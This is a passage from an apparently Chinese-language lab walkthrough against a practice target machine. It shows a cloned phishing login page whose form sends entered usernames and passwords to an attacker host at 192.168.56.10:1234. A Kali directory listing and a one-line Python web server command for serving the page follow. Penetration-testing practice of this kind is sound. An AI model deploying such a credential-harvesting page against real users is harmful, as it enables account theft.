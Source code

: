     - 钓鱼页面，使用靶机的`login.htm`页面
        
        ```python
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <title>Login</title>
            <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
            <style>
                body{ font: 14px sans-serif; }
                .wrapper{ width: 360px; padding: 20px; }
            </style>
        </head>
        <body>
            <div class="wrapper">
                <h2>Login</h2>
                <p>Please fill in your credentials to login.</p>
        
                <div class="alert alert-danger">Invalid username or password.</div>
                <form action="http://192.168.56.10:1234" method="post">
                    <div class="form-group">
                        <label>Username</label>
                        <input type="text" name="username" class="form-control " value="test">
                        <span class="invalid-feedback"></span>
                    </div>    
                    <div class="form-group">
                        <label>Password</label>
                        <input type="password" name="password" class="form-control ">
                        <span class="invalid-feedback"></span>
                    </div>
                    <div class="form-group">
                        <input type="submit" class="btn btn-primary" value="Login">
                    </div>
                    <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
                </form>
            </div>
        </body>
        </html>
        ```
        
    - 都放在`kali`的一个文件夹下
        
        ```python
        ┌──(root㉿kali)-[~/Desktop/test/diaoyu]
        └─# ls
        a.html  Login_files  Login.htm
        ```
        
    - `kali`使用`python`开启简易`web`服务器（`~/Desktop/test/diaoyu`文件夹下）
        
        ```python
        python -m http.server 80
        ```
        